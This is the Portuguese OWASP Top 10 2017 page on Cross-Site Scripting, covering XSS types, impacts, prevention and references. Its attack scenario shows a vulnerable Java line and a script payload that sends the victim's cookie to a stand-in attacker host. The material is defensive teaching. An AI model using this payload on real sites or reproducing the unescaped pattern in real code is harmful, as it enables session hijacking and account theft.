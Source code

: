 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vetores de ataque | Vulnerabilidade de Segurança | Impactos |
| -- | -- | -- |
| Nível de acesso \| Abuso 3 | Prevalência 3 \| Deteção 3 | Técnico 2 \| Negócio |
| Existem ferramentas automáticas capazes de detetar e tirar partido dos três tipos de XSS. Existem ainda _frameworks_, disponibilizadas gratuitamente, capazes de explorar este problema. | XSS é o segundo maior risco no Top 10 da OWASP e cerca de dois terços das aplicações são vulneráveis a este tipo de ataque. Existem ferramentas automáticas capazes de encontrar problemas de XSS em tecnologías bastantes populares como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para os tipos Reflected e DOM XSS mas severo para Stored XSS, onde a execução remota de código no navegador da vítima permite ao atacante roubar credenciais, sessões ou até mesmo infetar a máquina da vítima com malware. |

## A Aplicação é Vulnerável?

Existem três tipos de XSS que visam normalmente o navegador dos utilizadores:

* **Reflected XSS**: A aplicação ou API incluem dados de entrada do utilizador
  como parte do HTML de resposta sem que estes tenham sido devidamente validados
  e/ou os caracteres especiais devidamente tratados (_escaping_). Um ataque bem
  sucedido pode permitir ao atacante executar qualquer tipo de código HTML e
  JavaScript no navegador da vítima. Normalmente a vítima terá de seguir um
  endereço malicioso para uma página controlada pelo atacante tal como _watering
  hole websites_, publicidade ou algo semelhante.
* **Stored XSS**: A aplicação ou API armazenam dados de entrada do utilizador de
  forma não tratada (_sanitization_) os quais serão mais tarde acedidos por
  outro utilizador ou administrador. Este tipo de XSS é considerado de risco
  alto ou crítico.
* **DOM XSS**: Tipicamente as _frameworks_ JavaScript, _Single Page
  Applications_ (SPA) e APIs que incluem na página, de forma dinâmica,
  informação controlada pelo atacante, são vulneráveis a DOM XSS. Idealmente a
  aplicação não enviaria informação controlada pelo atacante para as APIs
  JavaScript.

Os ataques típicos de XSS visam o roubo da sessão do utilizador, roubo ou
controlo da conta de utilizador, contornar autenticação de múltiplo fator (MFA),
alteração do DOM por substituição ou alteração de nós (tais como formulários de
autenticação), ataques contra o navegador do utilizador tais como o download de
software malicioso, _key logging_ e outros ataques possíveis do lado do cliente.

## Como Prevenir?

Prevenir ataques de XSS requer a separação dos dados não confiáveis do conteúdo
activo do navegador. Isto é conseguido através da:

* Utilização de _frameworks_ que ofereçam nativamente protecção para XSS tais
  como as versões mais recentes de Ruby on Rails e React JS. É preciso conhecer
  as limitações destes mecanismos de proteção por forma a tratar de forma
  adequada os casos não cobertos.
* Tratamento adequado (_escaping_) da informação não confiável no pedido HTTP
  tendo em conta o contexto onde esta informação irá ser inserida no HTML (body,
  atributo, JavaScript, CSS ou URL) resolve as vulnerabilidades Reflected e
  Stored XSS. O documento [OWASP Cheat Sheet 'XSS Prevention'][1] inclui
  detalhes de como deve ser tratada esta informação.
* Aplicação do _encoding_ adequado com base no contexto de utilização aquando da
  modificação da página no lado do cliente previne o DOM XSS. Quando isto não é
  possível, podemos utilizar algumas das técnicas referidas no documento OWASP
  Cheat Sheet 'XSS Prevention'.
* Adição de [Content Security Policy (CSP)][2] enquanto medida de mitigação de
  XSS. É uma medida eficaz se não existirem outras vulnerabilidades que
  possibilitem a inclusão de código malicioso através de ficheiros locais da
  aplicação (e.g. _path traversal overwrites_ ou dependências vulneráveis
  incluídas a partir de CDNs autorizadas).

## Exemplos de Cenários de Ataque

**Cenário #1**: A aplicação usa informação não confiável na construção do HTML
abaixo, sem validação ou _escaping_:

```Java
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

O atacante altera o parâmetro `CC` no browser para:

```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Isto irá fazer com que a sessão da vítima seja enviada para a página do
atacante, dando-lhe o controlo sobre a atual sessão do utilizador.

**Nota**: Os atacantes podem tirar partido do XSS para derrotar qualquer
mecanismo de defesa automática contra [Cross-Site Request Forgery (CSRF)][3].

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data][4]
* [OWASP Proactive Controls: Validate Data][4]
* [OWASP Application Security Verification Standard: V5][5]
* [OWASP Testing Guide: Testing for Reflected XSS][6]
* [OWASP Testing Guide: Testing for Stored XSS][7]
* [OWASP Testing Guide: Testing for DOM XSS][8]
* [OWASP Cheat Sheet: XSS Prevention][1]
* [OWASP Cheat Sheet: DOM based XSS Prevention][9]
* [OWASP Cheat Sheet: XSS Filter Evasion][10]
* [OWASP Java Encoder Project][11]

### Externas

* [CWE-79: Improper neutralization of user supplied input][12]
* [PortSwigger: Client-side template injection][13]

[1]: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
[2]: https://developer.mozilla.org/pt-PT/docs/Web/HTTP/CSP
[3]: https://developer.mozilla.org/pt-PT/docs/Glossary/CSRF
[4]: https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016
[5]: https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project
[6]: https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)
[7]: https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)
[8]: https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)
[9]: https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet
[10]: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
[11]: https://www.owasp.org/index.php/OWASP_Java_Encoder_Project
[12]: https://cwe.mitre.org/data/definitions/79.html
[13]: https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection


